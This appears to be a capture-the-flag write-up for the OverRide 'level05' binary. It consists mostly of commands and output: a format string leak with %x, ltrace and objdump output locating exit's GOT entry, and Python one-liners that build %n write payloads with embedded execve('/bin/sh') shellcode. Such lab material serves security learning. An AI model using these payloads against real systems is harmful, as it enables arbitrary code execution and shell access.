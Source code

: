 ```
$> python -c "import struct; print('AAAABBBB' + '%x ' * 11)" | ./level05
aaaabbbb64 f7f39580 1 0 1 f7f99980 ffffffff 1 0 61616161 62626262
```

<pre>
echo | ltrace ./level05 1>&-
\__libc_start_main(0x8048444, 1, -10540, 0x8048520, 0x8048590 <unfinished ...>
<strong>fgets("\n", 100, 0xf7fcfac0)     = 0xffffd5c8</strong>
printf("\n")                     = 1
exit(0 <unfinished ...>
+++ exited (status 0) +++
</pre>

<pre>
level05@OverRide:~$ objdump -R ./level05 

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
<strong>080497e0 R_386_JUMP_SLOT   exit</strong>
080497e4 R_386_JUMP_SLOT   __libc_start_main
</pre>

```
(python -c "import struct; print('AAAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e1) + struct.pack('<I', 0x080497e2) + struct.pack('<I', 0x080497e3) + '%180d' + '%11\$n' + '%13d' + '%12\$n' + '%42d' + '%13\$n' + '%14\$n')")
```
```
(python -c "import struct; print('jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' + 'AAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e1) + struct.pack('<I', 0x080497e2) + struct.pack('<I', 0x080497e3) + '%140d' + '%21\$n' + '%13d' + '%22\$n' + '%42d' + '%23\$n' + '%24\$n')")
```
```
(python -c "import struct; print('jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80' + 'AAA' + struct.pack('<I', 0x080497e0) + struct.pack('<I', 0x080497e2) + '%54676d' + '%21\$n' + '%10807d' + '%22\$n')")
```
